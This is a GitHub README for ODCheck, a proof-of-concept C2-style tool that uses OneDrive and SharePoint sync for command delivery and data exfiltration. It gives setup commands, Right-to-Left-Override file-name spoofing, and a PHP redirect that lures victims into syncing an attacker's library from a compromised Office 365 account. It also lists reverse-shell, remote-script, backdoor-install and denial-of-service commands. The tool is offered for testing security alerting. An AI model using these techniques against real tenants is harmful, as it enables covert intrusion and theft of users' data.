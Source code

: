 #DISCLAIMER:
This tool is to be used for educational purposes only. I do not take responsibility if you use this in any other way. It's a proof of concept solution that was created for https://collectingflags.com/research/file-extension-spoofing-in-microsoft-sharepoint-onedrive-and-teams/ If you use this for malicious reasons, you will most likely get caught. Don't do it.

# ODCheck

ODCheck is a C2-like proof-of-concept solution designed to empower security professionals in evaluating their alerting systems against specific cyber-attacks within the Office 365 environment. This tool simplifies the process of testing local security solutions, particularly in scenarios involving data exfiltration through OneDrive and Sharepoint traffic.
<br/><br/>

| MITRE Technique             | ID |
| :---------------- | :------: |
| Exfiltration over C2 Channel        |   [T1041](https://attack.mitre.org/techniques/T1041/)   |
| Masquerading: Right-to-Left Override            |   [T1036.002](https://attack.mitre.org/techniques/T1036/002/)   |
| Modify Registry    |  [T1112](https://attack.mitre.org/techniques/T1112/)   |
| Automated Collection |  [T1119](https://attack.mitre.org/techniques/T1119/)   |
| Denial of Service | [T0814](https://attack.mitre.org/techniques/T0814/)  |
|Command and Scripting Interpreter: PowerShell| [T1059.001](https://attack.mitre.org/techniques/T0814/) |
|Ingress Tool Transfer | [T1105](https://attack.mitre.org/techniques/T1105/) |
|Web Service: Bidirectional Communication| [T1102.002](https://attack.mitre.org/techniques/T1102/002/)
<br/>

 **Setting Up ODCheck**
 
```
# You will need to have the PS2EXE PowerShell module installed 
Install-Module PS2EXE

# Copy the full ODCheck Folder from Github
git clone https://github.com/itssixtyn3in/ODCheck

# Run Manager.ps1 to start the Wizard
.\manager.ps1
```
ODCheck provides a few customization options from here that can be used, depending on what all you want to test.

- Option 1) This will customize the variables of the files that ODCheck will watch out for when the agent has been executed on a host. The setup will also require that you know the tenant and document library name that you will be using for the mutual sync connection. This information will be required to setup the sync connection to the correct local folder.

- Option 2) Inject a file name with the Right-To-Left-Override character to spoof the file extension.

- Option 3) Packages the script into an EXE file.
 <br/><br/>

 **Customizing the ODCheck Commands**
 
 The ODCheck client has been set up with five commands out of the box, but for the full functionality you will want to edit some of the commands to work for your needs (change the IP for the listener etc)
  <br/><br/>
 **Establishing A Sync Connection**
 
 The Microsoft Teams client in it's default configuration allows users to add website tabs to private conversations, or Teams channels. The website tab option can be linked to external pages, which can be used as a jumping point to have users sync specific Sharepoint libraries using the ODOpen:// protocol handler. For further details regarding this please see https://collectingflags.com/research/file-extension-spoofing-in-microsoft-sharepoint-onedrive-and-teams/

 If you've taken over a Office 365 account and can create Sharepoint Sites and write Microsoft Teams messages, then you can retrieve the ODSync link the following way. 
- Create a new sharepoint library and upload a file
- In a browser open up your dev tools > network > click on the 'sync' button on the Sharepoint page to trigger the ODOpen command
- Copy the URL from the network section entry
  
 ![onedrive_link-1024x231](https://github.com/itssixtyn3in/ODCheck/assets/130003354/40d0c5a7-c598-4a7f-adfb-349c533b7724)


 Your link for the sync connection will look similar to this:
 ```
 odopen://sync?userId=&userEmail=user%40email%2Ecom&isSiteAdmin=1&siteId=%7B123456e2%2D77be%2D4e43%2D9301%2D2d6cc8d5f778%7D&webId=%7B88af89a5%2D547e%2D44e5%2Dbab9%2Dcf1b27958693%7D&webTitle=OneDriveHealthCheck&webTemplate=64&webLogoUrl=%2Fsites%2FOneDriveHealthCheck2%2F%5Fapi%2FGroupService%2FGetGroupImage%3Fid%3D%27bdbb85bc%2D127a%2D4d63%2D95a6%2Dadaaf1394c1b%27%26hash%3D638490900916829775&webUrl=https%3A%2F%2Fexample%2Esharepoint%2Ecom%2Fsites%2FOneDriveHealthCheck2&onPrem=0&libraryType=3&listId=95e13011%2D92c1%2D488b%2Db46f%2D6d7b7b31fe0b&listTitle=Documents&scope=OPENLIST
```
Upload the ODOpen URL in a PHP file on a webhost that you control. The PHP file content should look like the following:
```
<?php
header("Location: odopen://sync?userId=&userEmail=user%40email%2Ecom&isSiteAdmin=1&siteId=%7B123456e2%2D77be%2D4e43%2D9301%2D2d6cc8d5f778%7D&webId=%7B88af89a5%2D547e%2D44e5%2Dbab9%2Dcf1b27958693%7D&webTitle=OneDriveHealthCheck&webTemplate=64&webLogoUrl=%2Fsites%2FOneDriveHealthCheck2%2F%5Fapi%2FGroupService%2FGetGroupImage%3Fid%3D%27bdbb85bc%2D127a%2D4d63%2D95a6%2Dadaaf1394c1b%27%26hash%3D638490900916829775&webUrl=https%3A%2F%2Fexample%2Esharepoint%2Ecom%2Fsites%2FOneDriveHealthCheck2&onPrem=0&libraryType=3&listId=95e13011%2D92c1%2D488b%2Db46f%2D6d7b7b31fe0b&listTitle=Documents&scope=OPENLIST", true, 301);
exit;
?>
```
 Once this sync has been established, then ODCheck can assist with creating a C2 connection. 
<br/><br/>
**Running commands**

Once a sync connection has been set up to the Sharepoint Document Library and the ODCheck client has been executed, then commands can be executed by dropping the payload files into the shared sync folder. 

- Enumeration: Runs multiple Windows enumeration commands and returns the output into the sync folder.
- Reverse Shell: Attempts to run a powershell base64 encoded reverse shell
- Execute remote Powershell script: Attempts executing a remote powershell script
- Install ODCheck protocol handler: Install the ODCheck protocol handler as a backdoor that can be triggered with odcheck://
- Trigger CVE-2023-32214: Attempts to run the MS-CXH-FULL protocol handler to cause a black screen condition.

https://github.com/itssixtyn3in/ODCheck/assets/130003354/36ea337f-ed2c-427e-9d4e-9628c812404f

